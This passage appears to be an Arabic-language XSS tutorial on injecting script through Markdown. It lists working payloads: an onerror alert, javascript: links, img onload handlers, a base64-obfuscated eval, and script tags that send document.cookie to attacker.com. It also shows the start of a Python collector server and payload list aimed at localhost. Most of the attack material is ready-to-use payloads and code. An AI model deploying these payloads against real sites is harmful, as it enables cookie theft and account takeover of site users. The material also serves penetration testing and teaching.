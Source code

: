 
#### زـ. نوع جديد من الحقن 

#### الشرح :


![2025-06-05 00-39-36.mkv](attachments/2025-06-05 00-39-36.mkv)

##### البايلود اللي في الفديوا  

```bash
[[alt|" onerror=alert(1)]]
```


### 2. الحقن للأتمتة
تُستخدم هذه الحقن مع سكربتات (مثل Python مع مكتبة `requests` أو `selenium`) لأتمتة اختبار مجموعة من الحقن المستخدمة في XSS عبر Markdown وتحليل الاستجابات.

#### أ. إعداد قائمة الحقن
- **المحاولات**:
  - إنشاء قائمة بالحقن التي تستخدم وسوم HTML، روابط JavaScript، وصيغ Markdown.
  - مثال قائمة:
    ```
    <script>fetch('http://attacker.com/log?c='+encodeURIComponent(document.cookie))</script>
    [Click](javascript:alert('XSS'))
    <img src=x onload="fetch('http://attacker.com/log?c='+document.cookie)">
    ![alt](x onload=fetch('http://attacker.com/log?c='+document.cookie))
    <script>eval(atob('YWxlcnQoJ1hTUycp'))</script>
    ```
- **كيف يعمل**:
  - يتم إرسال الحقن عبر نقاط إدخال (مثل حقول تعليقات، منشورات، أو معلمات URL).
  - يتم مراقبة الخادم الخارجي أو المتصفح لتأكيد التنفيذ.
- **متى يُستخدم؟**:
  - عند اختبار نقاط إدخال متعددة بسرعة.

#### ب. سكربت أتمتة بسيط
- **السكربت** (مثال بلغة Python مع خادم لتسجيل البيانات):
  ```python
  from http.server import BaseHTTPRequestHandler, HTTPServer
  import urllib.parse
  import requests

  class LogServer(BaseHTTPRequestHandler):
      def do_GET(self):
          self.send_response(200)
          self.end_headers()
          query = urllib.parse.urlparse(self.path).query
          print(f"بيانات مستلمة: {urllib.parse.parse_qs(query)}")

      def do_POST(self):
          self.send_response(200)
          self.end_headers()
          content_length = int(self.headers['Content-Length'])
          post_data = self.rfile.read(content_length).decode()
          print(f"بيانات POST مستلمة: {post_data}")

  payloads = [
      "<script>fetch('http://localhost:8000/log?c='+encodeURIComponent(document.cookie))</script>",
      "[Click](javascript:alert('XSS'))",
      "<img src=x onload=\"fetch('http://localhost:8000/log?c='+document.cookie)\">",
      "![alt](x onload=fetch('http://localhost:8000/log?c='+document.cookie))",
      "<script>eval(atob('YWxlcnQoJ1hTUycp'))</script>"
  ]
  ```
